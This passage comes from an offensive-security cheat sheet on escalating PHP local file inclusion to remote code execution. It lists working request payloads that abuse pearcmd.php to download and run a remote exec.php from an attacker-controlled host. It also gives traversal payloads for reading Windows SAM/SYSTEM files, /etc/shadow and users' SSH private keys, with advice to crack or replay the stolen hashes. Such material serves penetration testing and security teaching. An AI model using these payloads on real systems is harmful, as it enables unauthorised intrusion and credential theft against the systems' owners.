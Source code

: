 * **Method 3**: download (need external network connection).
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php
  /vuln.php?file=exec.php&c=id
  ```

* **Method 4**: install (need external network connection). Notice that `exec.php` locates at `/tmp/pear/download/exec.php`.
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php
  /vuln.php?file=/tmp/pear/download/exec.php&c=id
  ```


## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.


### Windows version

Extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.


### Linux version

Extract `/etc/shadow` files.

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

Another way to gain SSH access to a Linux machine through LFI is by reading the private SSH key file: `id_rsa`.
If SSH is active, check which user is being used in the machine by including the content of `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa` for every user with a home.


## References

* [LFI2RCE via PHP Filters - HackTricks - 19/07/2024](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
* [Local file inclusion tricks - Johan Adriaans - August 4, 2007](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
* [PHP LFI to arbitrary code execution via rfc1867 file upload temporary files (EN) - Gynvael Coldwind - March 18, 2011](https://gynvael.coldwind.pl/?id=376)
* [PHP LFI with Nginx Assistance - Bruno Bierbaumer - 26 Dec 2021](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)
* [Upgrade from LFI to RCE via PHP Sessions - Reiners - September 14, 2017](https://web.archive.org/web/20170914211708/https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)